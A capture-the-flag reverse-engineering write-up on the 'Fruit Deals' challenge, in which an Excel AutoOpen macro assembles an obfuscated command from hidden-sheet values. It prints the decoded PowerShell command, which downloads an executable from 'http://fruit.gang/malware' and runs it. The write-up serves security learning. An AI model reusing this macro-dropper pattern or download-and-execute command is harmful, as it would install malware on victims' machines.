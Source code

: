# Fruit Deals - Reverse Engineering Writeup

## Description:
![](screenshots/problem.png)

I found a excel sheet with some great deals thanks to some random guy on the internet! Who doesn't trust random people off the internet, especially from email

The flag is the file name that was attempted to be downloaded, wrapped in utflag{} Note: the file imitates malicious behavior. its not malicious, but it will be flagged by AV. you probably shouldn't just run it though.

By Samintell (@samintell on discord)

## Solution:
### Step 1:

On the initial load of the spreadsheet, It warned me saying that it was unable to find deals and the popup to enable macros

After opening up VB Editor, the first thing I noticed was the Sheets listed on the editor didn't match what was being shown on the main UI 
![](screenshots/Step1.1.png)


After Enabling the hidden sheets, I was greeted with this awful mess.
![](screenshots/Step1.2.png)
![](screenshots/Step1.3.png)

### Step 2:
In summary, the script appears to be dynamically constructing a command based on values in the Excel spreadsheet, executing the command, and then opening a specified YouTube link in the web browser which is most likely designed to move the end users' attention away from what the script is doing. 

Upon examining the code within the AutoOpen Macro, it initializes several variables and scans different cells within Sheet 2 for particular values. 
Depending on these values, specific strings are appended with corresponding values, ultimately forming a command ('f') by manipulating strings.

![](screenshots/Step2.png)

### Step 3:

To find out what the script is doing in the background, I briefly looked at what is being appended and saw some strings that stand out which was ```Invok``` ```http``` ```K.Dow``` and ```nload```

![](screenshots/Step3.1.png)
![](screenshots/Step3.2.png)

### Step 4:

To read the output, I just need to add a breakpoint on the line 
```
f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + e5b138e644d624905ca8d47c3b8a2cf41 + tfd753b886f3bd1f6da1a84488dee93f9 + z92ea38976d53e8b557cd5bbc2cd3e0f8 + xc6fd40b407cb3aac0d068f54af14362e
```
![](screenshots/Step4.png)

After opening up the variable viewer, I can see the strings and their values, which shows the script to be executed and the flag is appended to the $CNTA variable. 
![](screenshots/Step4.1.png)


### Executed Command: 
```powershell 
f = "poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';
$CNTA = 'banANA-Hakrz09182afd4';
$jri=$env:public+''+$CNTA+'.exe';
try{
  $oaK.DownloadFile($OrA, $jri);
  Invoke-Item $jri;
  break;
} catch {} ""
```

## Flag: utflag{banANA-Hakrz09182afd4}
